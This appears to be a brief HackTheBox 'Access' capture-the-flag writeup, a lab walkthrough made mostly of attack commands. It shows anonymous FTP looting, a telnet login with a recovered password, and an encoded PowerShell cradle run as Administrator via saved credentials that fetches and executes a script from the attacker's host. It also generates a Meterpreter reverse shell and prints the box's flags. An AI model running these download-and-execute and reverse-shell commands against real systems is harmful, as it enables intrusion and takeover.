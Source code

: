 # HackTheBox Access Writeup

![date](https://img.shields.io/badge/date-03.03.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### FTP Server

      > ftp 10.10.10.98 (with credentials: anonymous:anonymous)
      > wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98

#### 
      
#### MDB File (Microsoft Database File) Ananylse
      > mdb-tables back.mdb

#### Get Reverse Shell From telnet
      > telnet 10.10.10.98 (with credentials: security:4Cc3ssC0ntr0ller)
      > 
      
### Some Hacks In Powershell
      PS> $Wscript = New-Object -ComObject Wscript.Shell
      PS> $shortcut = Get-ChildItem *.lnk
      
      jason> echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/9003.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
      PS> runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcALwA5ADAAMAAzAC4AcABzADEAJwApAA=="
      
Check detailed info about the .lnk file       
      PS> $Wscript.CreateShortcut($shortcut)
      PS> copy 

### Meterpreter Establish
      python unicorn.py windows/meterpreter/reverse_https 10.10.14.7 9004
      > cp powershell_attack.txt ~/htb/boxes/Access/www/msf.ps1
      > msfconsole -r unicorn.rc
      
      
#### Flags
      User Flag ff1f3b48913b213a31ff6756d2553d38
      Root Flag 6e1586cc7ab230a8d297e8f933d904cf
      
